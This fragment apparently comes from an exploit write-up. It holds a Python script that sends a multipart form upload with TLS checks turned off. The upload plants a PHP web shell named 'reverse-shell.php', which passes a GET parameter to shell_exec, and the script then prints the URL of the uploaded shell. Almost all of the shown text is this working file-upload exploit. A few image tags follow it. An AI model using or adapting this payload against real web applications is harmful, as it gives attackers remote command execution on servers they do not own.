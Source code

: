 data = """

-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: text/html

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""
r = requests.post(target,verify=False, headers=headers,data=data)


print("[+] Shell Uploaded. Please check the URL : "+url+"images/reverse-shell.php")

</p>

<img src="Zeno/media/image4.png"
style="width:6.63333in;height:3.175in" />

<img src="Zeno/media/image5.png" style="width:6.55in;height:2.6in" />
